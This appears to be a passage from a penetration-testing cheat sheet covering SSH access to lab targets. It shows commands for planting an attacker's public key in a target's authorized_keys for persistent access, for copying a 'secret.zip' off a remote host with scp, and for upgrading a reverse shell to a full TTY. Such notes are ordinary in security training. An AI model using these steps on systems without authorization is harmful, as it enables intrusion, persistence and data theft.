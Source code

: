# 6. SSH <a name="ssh"></a>
- `ssh admin@10.10.10.123`
- Downloading a file from a remote system.
  - `scp user@10.10.10.10:/home/user/secret.zip .`
### SSH Login from Attacker to Target using id_rsa
```sh
#Generate SSH Key Pair on Attacker Machine
ssh-keygen -t rsa -b 2048 -f ~/.ssh/id_rsa # Give empty password

#Copy Public Key from Attacker
cat ~/.ssh/id_rsa.pub

#Add Public Key to Target Machine
cd ~/.ssh
echo '<paste your public key here>' >> authorized_keys

#From Attacker Machine
ssh -i ~/.ssh/id_rsa athena@<target-ip>

```

#### Adding SSH Public key 
- > This can be used to get ssh session, on target machine which is based on linux
```bash
ssh-keygen -t rsa -b 4096 #give any password

#This created both id_rsa and id_rsa.pub in ~/.ssh directory
#Copy the content in "id_rsa.pub" and create ".ssh" directory in /home of target machine.
chmod 700 ~/.ssh
nano ~/.ssh/authorized_keys #enter the copied content here
chmod 600 ~/.ssh/authorized_keys 

#On Attacker machine
ssh username@target_ip #enter password if you gave any
```
- [SSH](/ssh.md)
  





# 7. shell upgrade <a name="shell"></a>

```
SHELL=/bin/bash script -q /dev/null
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo && fg
restart
```
